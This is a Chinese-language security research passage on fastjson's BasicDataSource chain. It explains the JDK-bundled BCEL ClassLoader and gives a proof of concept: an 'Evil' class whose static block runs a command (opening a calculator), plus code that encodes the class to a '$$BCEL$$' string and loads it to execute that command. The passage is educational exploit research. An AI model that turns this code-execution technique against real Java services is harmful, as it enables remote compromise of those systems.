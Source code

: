 # fastjsonBasicDataSource分析

## 0x01 BCEL

### 1.1 BCEL 简单介绍

​	BCEL的全名应该是Apache Commons BCEL，属于Apache Commons项目下的一个子项目，BCEL库提供了一系列用于分析、创建、修改Java Class文件的API。就这个库的功能来看，其使用面远不及同胞兄弟们，但是他比Commons Collections特殊的一点是，它被包含在了原生的JDK中，位于`com.sun.org.apache.bcel`

​	详细了解：https://www.leavesongs.com/PENETRATION/where-is-bcel-classloader.html

### 1.2 BCEL 简单使用

​	BCEL这个包中有个类`com.sun.org.apache.bcel.internal.util.ClassLoader`，他是一个ClassLoader，但是他重写了Java内置的`ClassLoader#loadClass()`方法。 在`ClassLoader#loadClass()`中，其会判断类名是否是`$$BCEL$$`开头，如果是的话，将会对这个字符串进行decode。可以理解为是传统字节码的HEX编码，再将反斜线替换成`$`，默认情况下外层还会加一层GZip压缩。

写一个可执行的类：

**Evil.java**

```java
package com.BCEL.demo;

public class Evil {
    static {
        try {
            Runtime.getRuntime().exec("open -a calculator");
        }catch (Exception e){}
    }
}

```

​	然后使用过BCEL提供的两个类`Repository` 和 `Utility` 来利用：

-  `Repository`用于将一个`Java Class`先转换成原生字节码，当然这里也可以直接使用javac命令来编译java文件生成字节码；
-  `Utility`用于将原生的字节码转换成BCEL格式的字节码

```java
package com.BCEL.demo;

import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.bcel.internal.classfile.JavaClass;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import com.sun.org.apache.bcel.internal.util.ClassLoader;

import java.io.IOException;

public class BCEL {
    public static void main(String[] args) throws IOException, ClassNotFoundException, InstantiationException, IllegalAccessException {
        JavaClass javaClass = Repository.lookupClass(Evil.class);
        String encode = Utility.encode(javaClass.getBytes(), true);
        System.out.println(encode);
        //Class.forName("$$BCEL$$" + encode, true, new ClassLoader());
        new ClassLoader().loadClass("$$BCEL$$" + encode).newInstance();
    }
}

```
